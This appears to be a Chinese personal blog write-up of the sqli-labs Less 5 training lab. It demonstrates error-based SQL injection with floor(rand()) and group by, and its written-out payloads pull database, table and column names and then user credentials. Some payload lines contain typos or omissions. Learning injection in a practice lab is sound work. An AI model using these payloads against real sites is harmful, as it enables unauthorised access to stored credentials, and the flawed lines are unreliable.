 ```yaml
---
layout: post
title:  "我的SQL（2）"
desc: "新手上路"
keywords: "sql"
date: 2016-11-10
categories: [work]
tags: [blog]
icon: fa-bookmark-o
---
```


# Writeup（基于sqli-labs的less 5）
首先注入

>### ?id=1

`You are in……`我一脸懵逼，十万脸懵逼。what？不显示。不信邪的我继续尝试`id=2` `id=3`还是一样。看了下源码，fwrite都没有，就是说，他什么都不会显示。简直让人害怕不已。嗯~要换点方法。

在网上搜了一下，哦？！需要构造 一种语法正确（在编译时是正确的）而运行时会出错的sql查询语句，并且错误信息中包含数据局相关信息。一些天才的研究人员发现，可以使用聚合函数 group by子句，并结合随机函数rand()，在运行过程中有可能出错。哈哈哈心动了，开干。（下面附上sql的一些随机语句）

>### select rand()                0~1 之间的随机值
>### select rang()*2 	          0~2 之间的随机值
>### select floor(rand()2)        0 1 两个整数随机出现
>### select database() 	          当前数据库
>### select concat((select database()),0x20,floor(rand()   *2))a 	                   {当前数据库}{空格}{0 1中的一个}


开干开干哈哈哈哈哈。

>### ?id=0' select 1,count(*),concat((select database()),0x20,floor(rand()*2))a from information_schema.tables group by a%23
>（注释：count(*)表示全部字段，count(字段名)表示该字段。a是别名，是用来group by的别名。这个随意填写方便就好。0x20是空格的16制码。其他的都能看懂的啦哈哈哈）

第一次`You are in……`别担心，没随机到而已。刷新几遍哈哈出来了。`Duplicate entry 'security 1' for key ''` ok!数据库名出来了。就可以运用前面less1-4的语句来获取信息啦。首先

>### ?id=0' select 1,count(*),concat((select group_concat(distinct table_name) from information_schema.tables where table_schema='security'),0x20,floor(rand()*2))a from information_schema.tables group by a%23
>（注释：`group_concat(distinct table_name)`这个是显示security里的所有字段。和less1-4有点区别。不过都可以吧只是一个快一个要慢慢地用limit来偏移而已。）

啦啦啦获得users。继续继续

>### ?id=0' union select 1,count(*),concat((select group_concat(distinct column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x20,floor(rand()*2))a from information_schema.tables group by a%23

得到字段id，username，password。
继续下一步。

>### ?id=0' union select 1,count(*),concat((select concat_ws(char(32,58,32),id,username,password) from users limit 0,1),0x20,floor(rand()*2))a from information_schema.tables group by a%23

Flag取到。走人。哈哈哈哈哈。
#总结

### 这里与以往的不一样。展现的是一个更为普遍的事例。因为通常没有人那么傻去把信息显示出来。所以很多时候就需要用到这个随机方法。技能已get。待下次的研究学习。